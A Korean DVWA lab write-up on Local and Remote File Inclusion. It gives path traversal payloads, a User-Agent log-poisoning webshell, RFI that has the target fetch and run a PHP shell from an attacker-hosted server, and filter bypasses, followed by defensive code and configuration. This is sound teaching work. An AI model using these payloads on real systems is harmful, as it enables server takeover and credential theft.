




## 실습 환경

| 구분 | 내용 |
|---|---|
| 공격자 | Kali Linux (192.168.0.10) |
| 대상 서버 | Ubuntu + DVWA (192.168.0.30/DVWA/) |
| 도구 | Firefox, curl, python3 |

---

## OWASP Top 10 매핑

| 항목 | 내용 |
|---|---|
| OWASP 카테고리 | **A05:2025 – Injection** (구 A03:2021; 경로 조작 측면은 **A01 – Broken Access Control**) |
| CWE | CWE-98 (PHP 원격 파일 포함) · CWE-22 (경로 조작, Path Traversal) |
| 영향 | LFI: 시스템 파일 노출·로그 포이즈닝으로 RCE / RFI: 외부 악성 코드 실행(즉시 RCE) |
| 한 줄 핵심 | 사용자 입력이 **`include()`의 파일 경로**로 쓰여, 임의 로컬/원격 파일이 코드로 실행됨 |

> 코드를 포함·실행시키는 측면은 **A05 Injection(CWE-98, 구 A03:2021)**, 디렉터리를 거슬러 올라가 파일을 읽는  
> **Path Traversal(CWE-22)** 측면은 **A01 Broken Access Control**로도 분류된다. 두 관점을 함께 이해한다.
{: .prompt-info }

---

## 1. File Inclusion이란

웹 애플리케이션이 외부 파일을 동적으로 불러올 때 발생하는 취약점이다.  
개발자는 파일 이름을 파라미터로 받아 페이지를 구성하려고 했지만, 입력값 검증이 없으면 공격자가 임의의 파일을 지정할 수 있다.

대표적인 취약 코드 패턴은 다음과 같다.

```php
// 취약한 PHP 코드
$file = $_GET['page'];
include($file);
```

이 코드는 `page` 파라미터에 어떤 값이 들어와도 그대로 파일을 인클루드한다.  
정상 의도: `page=welcome.html` → 홈 화면  
공격자 입력: `page=../../../etc/passwd` → 시스템 파일 노출

> 사용자 입력으로 파일 경로를 결정하는 순간 File Inclusion 취약점의 씨앗이 심어진다.
{: .prompt-danger }

### 1.1 LFI와 RFI 비교

| 구분 | LFI (Local File Inclusion) | RFI (Remote File Inclusion) |
|---|---|---|
| 대상 파일 위치 | 서버 내부 파일 | 외부 서버의 파일 |
| 주요 목표 | 민감 파일 읽기 | 악성 코드 실행 |
| 필요 조건 | 경로 조작 가능 | `allow_url_include = On` |
| 위험도 | 높음 | 매우 높음 (서버 완전 장악 가능) |
| 대표 타겟 | `/etc/passwd`, 로그 파일 | 원격 웹쉘 (shell.php) |

---

## 2. LFI (Local File Inclusion)

### 2.1 공격 흐름



### 2.2 Path Traversal (Directory Traversal)

LFI의 핵심 기법은 **Path Traversal**이다.  
`../` (Dot-Dot-Slash)를 사용해 현재 디렉토리에서 상위 디렉토리로 이동한다.

```
웹 루트: /var/www/html/DVWA/
취약 파라미터: ?page=../../../etc/passwd

실제 경로 해석:
/var/www/html/DVWA/ + ../../../etc/passwd
= /var/www/html/ + ../../etc/passwd
= /var/www/ + ../etc/passwd
= /var/ + etc/passwd
= /etc/passwd  ← 목표 도달
```

#### 왜 발생하는가

많은 개발자들이 파일 경로에 대한 입력값 검증 없이 파라미터를 그대로 사용한다.

```php
// 취약: 검증 없음
include($_GET['page']);

// 취약: 블랙리스트 방식 (우회 가능)
$file = str_replace('../', '', $_GET['page']);
include($file);

// 안전: 화이트리스트 방식
$allowed = ['home', 'about', 'contact'];
if (in_array($_GET['page'], $allowed)) {
    include($_GET['page'] . '.php');
}
```

### 2.3 주요 타겟 파일

| 파일 경로 | 획득 정보 | 위험도 |
|---|---|---|
| `/etc/passwd` | 사용자 계정 목록, 홈 디렉토리 | 높음 |
| `/etc/shadow` | 비밀번호 해시 (root 권한 필요) | 매우 높음 |
| `/etc/hosts` | 내부 네트워크 구성, 도메인 매핑 | 중간 |
| `/etc/os-release` | OS 버전 및 배포판 정보 | 낮음 |
| `/proc/version` | 커널 버전 | 낮음 |
| `/proc/self/environ` | 환경변수 (User-Agent 등 포함) | 높음 |
| `/var/log/apache2/access.log` | 웹 서버 접근 로그 (Log Poisoning 활용) | 매우 높음 |
| `/var/log/auth.log` | SSH 인증 로그 | 높음 |
| `/var/www/html/DVWA/config/config.inc.php` | DB 계정 정보 | 매우 높음 |

---

## 3. RFI (Remote File Inclusion)

### 3.1 공격 흐름



RFI는 피해자 서버가 공격자 서버에서 악성 파일을 직접 내려받아 실행하므로 **서버 완전 장악**으로 이어질 수 있다.

### 3.2 필요 조건

RFI가 성립하려면 피해자 서버의 `php.ini`에 다음 설정이 활성화되어 있어야 한다.

```ini
; /etc/php/8.x/apache2/php.ini
allow_url_fopen = On   ; URL을 파일처럼 열 수 있게 허용
allow_url_include = On ; URL 대상 파일을 include 가능하게 허용
```

DVWA Low 레벨은 이 조건이 충족된 환경이다.

> `allow_url_include`는 보안상 절대 활성화해서는 안 되는 설정이다.  
> 현대의 대부분 배포판은 기본값이 `Off`이지만, 오래된 서버나 레거시 환경에서는 활성화된 경우가 있다.
{: .prompt-warning }

---

## 4. Filter Bypass 기법

보안 필터가 적용된 경우에도 우회 기법으로 공격이 가능하다.

### 4.1 URL 인코딩

`../`를 URL 인코딩으로 표현한다.

```
../           →  ..%2F
../../etc/passwd  →  ..%2F..%2Fetc%2Fpasswd
```

### 4.2 이중 인코딩

서버가 한 번만 디코딩할 때 유효하다.

```
%2F  →  %252F   (% 자체를 %25로 인코딩)
../../../etc/passwd  →  ..%252F..%252F..%252Fetc%252Fpasswd
```

### 4.3 Null Byte Injection

PHP 5.3.4 이전 버전에서 유효하다. Null 바이트 이후의 문자열을 PHP가 무시한다.

```
../../../etc/passwd%00
../../../etc/passwd%00.jpg   ← .jpg 확장자 필터 우회
```

### 4.4 경로 정규화 우회

단순 `../` 필터를 우회한다. 필터가 `../`를 제거해도 `....//`에서 가운데 `../`가 제거되면 남은 부분이 `../`가 된다.

```
....//....//....//etc/passwd
..././..././..././etc/passwd
```

### 4.5 Bypass 기법 요약

| 기법 | 우회 패턴 | 적용 조건 |
|---|---|---|
| URL 인코딩 | `..%2F..%2F` | 서버가 경로 인코딩 미검증 |
| 이중 인코딩 | `..%252F..%252F` | 단일 디코딩만 수행 |
| Null Byte | `../../../etc/passwd%00` | PHP < 5.3.4 |
| 경로 중복 | `....//....//` | 단순 문자열 치환 필터 |

---

## 5. DVWA 실습 — Security Level: Low

### 5.0 레벨별 공격·방어 한눈에

| 레벨 | 서버 측 방어 | 공격(우회) 방안 | 방어 한계 |
|---|---|---|---|
| **Low** | 없음 | `?page=../../../../etc/passwd`, `?page=http://192.168.0.10/shell.txt`(RFI) | 검증 자체가 없음 |
| **Medium** | `http://`,`https://`,`../`,`..\` 문자열을 `str_replace`로 1회 제거 | 중첩 삽입 `hthttp://tp://`, `....//....//` (제거 후 원형 복원) | 1회 치환이라 중첩으로 복원됨 |
| **High** | `fnmatch()`로 파일명이 **`file*`로 시작**해야 통과 | `file:///etc/passwd` 처럼 `file` 프로토콜 접두사로 화이트리스트 통과 | 접두사 패턴만 검사 |
| **Impossible** | **허용 파일명 화이트리스트**(`include.php`,`file1.php`…)만 허용 | 목록 외 파일은 모두 거부 → 불가 | — (근본 방어) |

> 핵심: 블랙리스트 치환(Medium)·접두사 검사(High)는 모두 우회된다.  
> Impossible처럼 **허용 파일명을 고정 목록으로 화이트리스트**하는 것만이 안전하다(7장).
{: .prompt-tip }

### 5.1 LFI 기본 테스트

**DVWA > File Inclusion** 메뉴 접속.

기본 URL 구조를 확인한다.

```
http://192.168.0.30/DVWA/vulnerabilities/fi/?page=include.php
```

`page` 파라미터가 파일명을 받는다.

**Step 1. `/etc/passwd` 읽기**

```
http://192.168.0.30/DVWA/vulnerabilities/fi/?page=../../../etc/passwd
```

출력 예시:
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
...
```

**Step 2. `/etc/hosts` 읽기**

```
http://192.168.0.30/DVWA/vulnerabilities/fi/?page=../../../etc/hosts
```

내부 네트워크 구성 및 도메인 매핑 정보를 확인할 수 있다.

**Step 3. 커널 버전 확인**

```
http://192.168.0.30/DVWA/vulnerabilities/fi/?page=../../../proc/version
```

**Step 4. DVWA DB 설정 파일 탈취**

```
http://192.168.0.30/DVWA/vulnerabilities/fi/?page=../../config/config.inc.php
```

DB 호스트, 사용자명, 비밀번호가 그대로 노출된다.

> LFI로 DB 설정 파일을 읽으면 데이터베이스 계정 정보까지 탈취된다.  
> SQL Injection 없이도 DB 접근 권한을 얻을 수 있다.
{: .prompt-danger }

---

### 5.2 Log Poisoning → RCE

LFI와 로그 파일을 조합하면 **원격 코드 실행(RCE)**까지 이어진다.



**1단계: 로그에 PHP 코드 삽입**

`User-Agent` 헤더에 PHP 코드를 심어 Apache 접근 로그에 기록시킨다.

```bash
curl -H "User-Agent: <?php system(\$_GET['cmd']); ?>" \
     http://192.168.0.30/DVWA/
```

Apache 로그 파일에는 다음과 같이 기록된다.

```
192.168.0.10 - - [01/Jun/2026:18:00:00 +0900] "GET /DVWA/ HTTP/1.1" 200 1234 "-" "<?php system($_GET['cmd']); ?>"
```

**2단계: LFI로 로그 파일 인클루드하면서 명령 실행**

```
http://192.168.0.30/DVWA/vulnerabilities/fi/?page=../../../var/log/apache2/access.log&cmd=id
```

출력 예시:
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

추가 명령어 테스트:

```
?page=../../../var/log/apache2/access.log&cmd=whoami
?page=../../../var/log/apache2/access.log&cmd=cat+/etc/passwd
?page=../../../var/log/apache2/access.log&cmd=ls+-la+/var/www/html/DVWA/
?page=../../../var/log/apache2/access.log&cmd=uname+-a
```

> Log Poisoning은 LFI만으로 RCE를 달성하는 강력한 기법이다.  
> 로그 파일 읽기 권한이 있는 환경에서 적용된다.
{: .prompt-danger }

---

### 5.3 RFI 실습

**Kali에서 악성 PHP 파일 준비 및 서버 실행**

```bash
# Kali(192.168.0.10)에서 작업

# 악성 파일 생성 (PHP 코드를 .txt 확장자로 저장)
echo '<?php system($_GET["cmd"]); ?>' > /tmp/shell.txt

# 현재 내용 확인
cat /tmp/shell.txt

# Python HTTP 서버 실행 (80번 포트)
cd /tmp && python3 -m http.server 80
```

**DVWA에서 RFI 실행**

별도 브라우저 탭에서 DVWA File Inclusion 페이지로 이동한다.

```
# 기본 실행 테스트
http://192.168.0.30/DVWA/vulnerabilities/fi/?page=http://192.168.0.10/shell.txt&cmd=id

# 시스템 정보 수집
http://192.168.0.30/DVWA/vulnerabilities/fi/?page=http://192.168.0.10/shell.txt&cmd=uname+-a

# 사용자 계정 확인
http://192.168.0.30/DVWA/vulnerabilities/fi/?page=http://192.168.0.10/shell.txt&cmd=cat+/etc/passwd

# 현재 디렉토리 파일 목록
http://192.168.0.30/DVWA/vulnerabilities/fi/?page=http://192.168.0.10/shell.txt&cmd=ls+-la
```

Kali의 HTTP 서버 터미널에서 피해자 서버가 파일을 요청하는 로그를 확인할 수 있다.

```
192.168.0.30 - - [01/Jun/2026 18:05:23] "GET /shell.txt HTTP/1.0" 200 -
```

> RFI는 피해자 서버가 공격자 서버에 능동적으로 접속해 악성 파일을 실행한다.  
> 방화벽이 아웃바운드 HTTP를 허용한다면 내부망에서도 성립 가능하다.
{: .prompt-danger }

---

## 6. Security Level: Medium 우회

Medium 레벨 소스 코드를 살펴보면 다음 필터가 적용되어 있다.

```php
// Medium 레벨 필터
$file = str_replace(array("http://", "https://"), "", $_GET['page']);
$file = str_replace(array("../", "..\""), "", $_GET['page']);
```

단순 문자열 치환 방식이므로 다음과 같이 우회할 수 있다.

### 6.1 RFI 우회 — 프로토콜 중복 삽입

필터가 `http://`를 제거하면 남은 부분이 다시 `http://`가 된다.

```
# 원본 입력
hthttp://tp://192.168.0.10/shell.txt

# 필터 처리 후 (http:// 제거)
http://192.168.0.10/shell.txt  ← 의도한 결과
```

```
http://192.168.0.30/DVWA/vulnerabilities/fi/?page=hthttp://tp://192.168.0.10/shell.txt&cmd=id
```

### 6.2 LFI 우회 — 경로 중복 삽입

필터가 `../`를 제거하면 남은 부분이 `../`가 된다.

```
# 원본 입력
....//....//....//etc/passwd

# 필터 처리 후 (../ 제거)
../../../etc/passwd  ← 의도한 결과
```

```
http://192.168.0.30/DVWA/vulnerabilities/fi/?page=....//....//....//etc/passwd
```

---

## 6-1. Security Level: High 우회

High 레벨은 `fnmatch("file*", $file)` 로 **파일명이 `file` 로 시작**해야만 통과시킨다.  
`../` 나 `http://` 차단을 노린 것이지만, **`file://` 프로토콜 접두사**가 `file` 로 시작하므로 통과한다.

```
http://192.168.0.30/DVWA/vulnerabilities/fi/?page=file:///etc/passwd
```

> High의 교훈: "특정 접두사로 시작" 같은 **패턴 화이트리스트**는 의도치 않은 값(`file://`)을 허용할 수 있다.
{: .prompt-warning }

---

## 6-2. Security Level: Impossible (방어 성공)

Impossible 레벨은 **허용된 파일명만 명시적으로 화이트리스트**한다.

```php
// Impossible: 정해진 파일만 허용
if ($file != "include.php" && $file != "file1.php" &&
    $file != "file2.php" && $file != "file3.php") {
    echo "ERROR: File not found!";
    exit;
}
```

`page` 값이 목록에 없으면 무조건 거부되므로, 경로 조작·프로토콜·중첩 우회가 모두 불가능하다.

---

## 7. 방어 방법

### 7.1 취약/안전 PHP 코드 비교

```php
// ===== 취약한 코드 =====

// 1. 사용자 입력을 직접 include
include($_GET['page']);

// 2. 블랙리스트 방식 (우회 가능)
$file = $_GET['page'];
$file = str_replace('../', '', $file);
include($file);

// 3. 경로 결합만으로 제한 (우회 가능)
include('/var/www/html/' . $_GET['page']);
```

```php
// ===== 안전한 코드 =====

// 1. 화이트리스트 방식 (가장 안전)
$allowed_pages = ['home', 'about', 'contact', 'faq'];
$page = $_GET['page'];

if (!in_array($page, $allowed_pages)) {
    die("허용되지 않은 페이지입니다.");
}
include($page . '.php');

// 2. realpath()로 경로 이탈 방지
$base_dir = realpath('/var/www/html/pages/');
$requested = realpath($base_dir . '/' . $_GET['page']);

if ($requested === false || strpos($requested, $base_dir) !== 0) {
    die("잘못된 경로입니다.");
}
include($requested);
```

### 7.2 php.ini 보안 설정

```ini
; /etc/php/8.x/apache2/php.ini

; RFI 방지 — URL을 파일처럼 열기 금지
allow_url_fopen = Off

; RFI 완전 차단 — URL include 금지
allow_url_include = Off

; 오픈 베이스디렉토리 제한 — 지정 경로 외 파일 접근 차단
open_basedir = /var/www/html/

; 오류 메시지 출력 금지 (정보 유출 방지)
display_errors = Off
log_errors = On
```

### 7.3 웹 서버 설정 (Apache)

```apache
# /etc/apache2/sites-available/dvwa.conf

# 업로드 디렉토리에서 PHP 실행 금지
<Directory /var/www/html/DVWA/hackable/uploads>
    php_flag engine off
    Options -ExecCGI
</Directory>

# 로그 파일 디렉토리 웹 접근 차단
<Directory /var/log/apache2>
    Require all denied
</Directory>
```

### 7.4 방어 전략 요약



| 방어 항목 | 방지하는 공격 |
|---|---|
| 화이트리스트 파일명 검증 | LFI, RFI, Path Traversal |
| `allow_url_include = Off` | RFI 완전 차단 |
| `allow_url_fopen = Off` | RFI (URL 파일 열기 차단) |
| `open_basedir` 제한 | LFI (디렉토리 이탈 방지) |
| `../`, `..\\`, URL 스킴 제거 | Path Traversal (보조 수단) |
| `realpath()` + 기준 디렉토리 비교 | 모든 경로 이탈 시도 |
| 로그 파일 웹 접근 차단 | Log Poisoning → RCE 방지 |

> `allow_url_include = Off` 한 줄만 설정해도 RFI 공격을 완전히 차단할 수 있다.  
> 서버 배포 시 반드시 확인해야 하는 항목이다.
{: .prompt-tip }

---

## 8. 정리

File Inclusion은 단순해 보이지만 실제 피해는 매우 광범위하다.

| 공격 단계 | 기법 | 결과 |
|---|---|---|
| 정보 수집 | LFI + `/etc/passwd` | 사용자 계정 목록 탈취 |
| 설정 파일 탈취 | LFI + `config.inc.php` | DB 계정 정보 노출 |
| 코드 실행 | Log Poisoning + LFI | RCE (www-data 권한) |
| 서버 장악 | RFI + 웹쉘 | 서버 완전 제어 |

핵심 요약:

1. **LFI**: `../` 를 이용해 서버 내부 파일을 읽는다. Log Poisoning과 결합하면 RCE로 이어진다.
2. **RFI**: 외부 서버의 악성 파일을 피해자 서버에서 직접 실행한다. `allow_url_include = On`이 전제 조건.
3. **Path Traversal**: `../` 반복으로 웹 루트 외부 파일에 접근하는 기법.
4. **Filter Bypass**: URL 인코딩, 이중 인코딩, 경로 중복 삽입으로 단순 필터를 우회한다.
5. **핵심 방어**: 화이트리스트 검증 + `allow_url_include = Off` + `open_basedir` 설정.

> File Inclusion은 "편리한 기능"이 "치명적인 취약점"이 되는 전형적인 사례다.  
> 사용자 입력으로 파일 경로를 결정하는 코드 패턴 자체를 피해야 한다.
{: .prompt-tip }
